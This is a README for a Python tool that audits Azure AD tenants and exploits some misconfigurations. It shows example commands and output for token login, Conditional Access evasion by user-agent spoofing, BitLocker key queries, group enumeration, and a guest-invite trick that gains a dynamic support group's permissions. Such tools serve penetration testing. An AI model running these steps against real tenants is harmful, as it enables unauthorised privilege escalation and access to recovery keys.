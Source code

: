 # azrestarn

## Getting started

`azrestarn.py` is a tool designed to help find insecure configurations or best practice
deviations in Azure environments, as well as some functions to exploit these.

To authenticate run `python3 azrestarn.py --login`

```
$ python3 azrestarn.py --proxy --domain domain.tld --login
[+] Fetching AzureAD PRT token. Will be valid for 14d open https://microsoft.com/devicelogin and use code: DFP49U56W 

[+] Press any key when authentication is complete...
```

This will generate an AzureAD refresh_token, Microsoft Graph API and Azure AD Graph API
JWT and store them in
`.azrestarn_auth.json`. Be mindful of these are authentications tokens and should be
protected.

The `user-agent` used to initiate the request is Chrome on Windows 10. This will
help bypass some of the simple AzureAD Conditional-Access policies. `device_code`
authentication is used to have the possibility to login on a different machine
as well as allowing Multi-Factor Authentication (MFA).

AzureAD refresh_token is valid for 14d where JWT's only live for 1h. Use `python3 azrestarn.py --refresh` to obtain new JWT's.

All output from `azrestarn.py` is in JSON format and can simply be filtered with `jq`
as shown in examples.

### Examples

```
$ python3 azrestarn.py -h

usage: azrestarn.py [-h] [--proxy] [--login] [--refresh] [--bitlocker]
                    [--computername COMPUTERNAME] [--domain DOMAIN] [--checkbestprac] [--me]
                    [--checkme] [--objectid OBJECTID] [--owneddevices] [--dynamicgroups]
                    [--invite] [--email EMAIL] [--dispname DISPNAME] [--inviteurl INVITEURL]
                    [--invitedusers] [--invitedelete] [--inviteid INVITEID]
                    [--getgrouproles GETGROUPROLES] [--getuser GETUSER] [--getgroup]
                    [--approle] [--memberof] [--groupsettings]
                    [--getmemberobjects GETMEMBEROBJECTS]

azrestarn.py

options:
  -h, --help            show this help message and exit
  --proxy
  --login
  --refresh
  --bitlocker
  --computername COMPUTERNAME
  --domain DOMAIN
  --checkbestprac
  --me
  --checkme
  --objectid OBJECTID
  --owneddevices
  --dynamicgroups
  --invite
  --email EMAIL
  --dispname DISPNAME
  --inviteurl INVITEURL
  --invitedusers
  --invitedelete
  --inviteid INVITEID
  --getgrouproles GETGROUPROLES
  --getuser GETUSER
  --getgroup
  --approle
  --memberof
  --groupsettings
  --getmemberobjects GETMEMBEROBJECTS
```

Check authenticated user properties:

```
$ python3 azrestarn.py --me
{
    "@odata.context": "https://graph.microsoft.com/beta/$metadata#users/$entity",
    "id": "asdfasdf-1234-1234-1234-asdfasdf",
    "deletedDateTime": null,
    "accountEnabled": true,
    "ageGroup": null,
    "businessPhones": [],
    "city": "Stockholm",
[...]
```

Check security settings for tenant:

```
$ python3 azrestarn.py --checkbestprac 
{
  "@odata.context": "https://graph.microsoft.com/beta/$metadata#policies/authorizationPolicy/$entity",
  "id": "authorizationPolicy",
  "allowInvitesFrom": "adminsAndGuestInviters",
  "allowedToSignUpEmailBasedSubscriptions": false,
  "allowedToUseSSPR": true,
  "allowEmailVerifiedUsersToJoinOrganization": false,
  "allowUserConsentForRiskyApps": false,
  "blockMsolPowerShell": false,
  "description": "Used to manage authorization related settings across the company.",
  "displayName": "Authorization Policy",
  "enabledPreviewFeatures": [],
  "guestUserRoleId": "2af84b1e-32c8-42b7-82bc-daa82404023b",
  "permissionGrantPolicyIdsAssignedToDefaultUserRole": [
    "ManagePermissionGrantsForSelf.microsoft-user-default-low"
  ],
  "defaultUserRolePermissions": {
    "allowedToCreateApps": false,
    "allowedToCreateSecurityGroups": true,
    "allowedToCreateTenants": true,
    "allowedToReadBitlockerKeysForOwnedDevice": true,
    "allowedToReadOtherUsers": true
  }
}
```

Find all devices registered to the authenticated user:

```
$ python3 azrestarn.py --owneddevices | jq .value[].displayName
"Phone1"
"Phone2"
"Phone3"
"LAPTOP1"
```

Query if bitlocker key exists for specific device:

```
$ python3 azrestarn.py --bitlocker --computername LAPTOP1 --domain lössnus.tld | jq .value[].bitLockerKey

[...]
```

Find all groups that can be joined and check their permissions;

```
$ python3 azrestarn.py --domain domain.tld --getgroup | jq '.value[] | select(.visibility == "Public")' | jq .id -r > /tmp/publicgroups.txt

$ for i in $(cat ../publicgroups.txt); do python3 azrestarn.py --domain domain.tld --getgroup --objectid $i --approle; done

$ for i in $(cat ../publicgroups.txt); do python3 azrestarn.py --domain domain.tld --getmemberobjects $i; done
```

Check for dynamic groups:

```
$ python3 azrestarn.py --dynamicgroups | jq '.value[] | "\(.displayName), \(.membershipRule)"'

"Support, (user.userPrincipalName -startsWith \"support.\")"
```

Invite guest and gain support group permission:

```
$ python3 azrestarn.py --proxy --domain snus.tld --checkbestprac | jq .allowInvitesFrom

"adminsGuestInvitersAndAllMembers"

$ python3 azrestarn.py --domain snus.tld --proxy --invite --email support.snus@skurk.tld --dispname guestinvite-test --inviteurl https://example.tld

{
    "@odata.context":"https://graph.microsoft.com/v1.0/$metadata#invitations/$entity",
    "id":"f2a10860-[...REDACTED...]5a5ba8",
     [...]

$ python3 azrestarn.py --domain snus.tld --proxy --invitedusers

{
    "@odata.context":"https://graph.microsoft.com/v1.0/$metadata#users",
    "value":[{"businessPhones":[],
    "displayName":guestinvite-test",
    "givenName":null,
    "jobTitle":null,
     [...]
```

